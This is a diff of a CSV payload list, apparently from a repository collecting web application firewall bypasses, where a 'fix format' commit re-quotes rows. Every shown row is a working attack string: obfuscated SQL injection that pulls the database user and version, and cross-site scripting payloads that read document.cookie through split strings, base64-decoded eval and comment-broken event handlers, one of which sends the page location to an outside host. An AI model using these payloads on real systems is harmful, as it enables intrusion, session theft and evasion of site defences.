

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

Commit message:
fix format

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -373,3 +372,3 @@ https://waf-bypass.com/,%27/**/%256fR/**/50%2521%253D22%253B%2523,sqli
 https://waf-bypass.com/,0%20/*!union*/%20/*!select*/%201,2,3,4,user(),6,7,version(),9,10,11,sqli
-https://waf-bypass.com/,<svg onpointerenter=jQuery.globalEval(""al""+""ert(documen""+""t.cooki""+""e)"");>,xss
+https://waf-bypass.com/,"<svg onpointerenter=jQuery.globalEval(""al""+""ert(documen""+""t.cooki""+""e)"");>",xss
 https://waf-bypass.com/,<svg onload=alert&#0000000040document.cookie)>,xss
@@ -377,4 +376,4 @@ https://waf-bypass.com/,<img+src=x+on<!--ram-->error=ale<!--ram-->rt(1)>,xss
 https://waf-bypass.com/,<img%09'%0asrc='%5c%0d%7c'%00=''onerror=%0d%09%0a%60%60.sup(eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==')))>,xss
-https://waf-bypass.com/,""firstname"":""<img src ='"",""lastname"":""'onerror=print()>"",xss
-https://waf-bypass.com/,""><a/\test=""%26quot;x%26quot;""href='%01javascript:/*%b1*/;location.assign(""//hackerone.com/stealthy?x=""+location)'>Click,xss
-https://waf-bypass.com/,""><img src=1 onmouseleave=print()>,xss
+https://waf-bypass.com/,"""firstname"":""<img src ='"",""lastname"":""'onerror=print()>""",xss
+https://waf-bypass.com/,"""><a/\test=""%26quot;x%26quot;""href='%01javascript:/*%b1*/;location.assign(""//hackerone.com/stealthy?x=""+location)'>Click",xss
+https://waf-bypass.com/,"""><img src=1 onmouseleave=print()>",xss
```
Also changed, not shown: 2 added rows, 3 removed rows and 11 edited cells elsewhere in this file.
